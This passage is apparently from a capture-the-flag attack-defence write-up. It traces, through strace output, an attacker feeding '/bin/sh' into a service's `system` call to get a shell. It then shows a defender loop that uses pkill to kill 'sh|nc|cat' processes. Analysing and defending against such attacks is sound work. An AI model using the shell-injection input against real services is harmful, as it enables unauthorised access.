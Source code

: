 ```
read(0, "0\n/bin/sh\n", 4096)           = 10
```

Our uninvited guest is almost there.  From the main menu a `0` is entered, and at the `
Enter the sector's size:"` prompt, `/bin/sh` is passed, but there's no `strtoll` to safely convert to an integer, it's `system` now, and a new process is forked with a shell:

```
rt_sigaction(SIGINT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f7c9c5f0840}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f7c9c5f0840}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
clone(child_stack=NULL, flags=CLONE_PARENT_SETTID|SIGCHLD, parent_tidptr=0x7ffca4f385bc) = 9805
wait4(9805, [{WIFSIGNALED(s) && WTERMSIG(s) == SIGTERM}], 0, NULL) = 9805
```

Looks like PID 9805.  Switching to `foo.9805`:

```
rt_sigaction(SIGINT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f7c9c5f0840}, NULL, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f7c9c5f0840}, NULL, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
execve("/bin/sh", ["sh", "-c", "/bin/sh\n"], 0x7ffca4f38950 /* 10 vars */) = 0
...
getpid()                                = 9805
...
getppid()                               = 9544
```

Yep, but wait, what's _this?_

```
getcwd("/srv/cartography", 4096)        = 17
geteuid()                               = 109
getegid()                               = 116
rt_sigaction(SIGINT, NULL, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGINT, {sa_handler=0x560707136380, sa_mask=~[RTMIN RT_1], sa_flags=SA_RESTORER, sa_restorer=0x7fc46c3be840}, NULL, 8) = 0
--- SIGTERM {si_signo=SIGTERM, si_code=SI_USER, si_pid=9807, si_uid=0} ---
+++ killed by SIGTERM +++
```

SIGTERM?  The "1337 hax0r" didn't even get a chance at a flag.  _Why?_

Well, we had the following loop killing shells:

```bash
while :; do for uid in $(cat serviceusers); do pkill -e -U $uid 'sh|nc|cat'; done; done | tee servicekil.log
```

> Thanks for the tip [PPP](https://www.reddit.com/r/netsec/comments/1k1oh4/we_are_the_plaid_parliament_of_pwning_ask_us/cbkgsvi/)

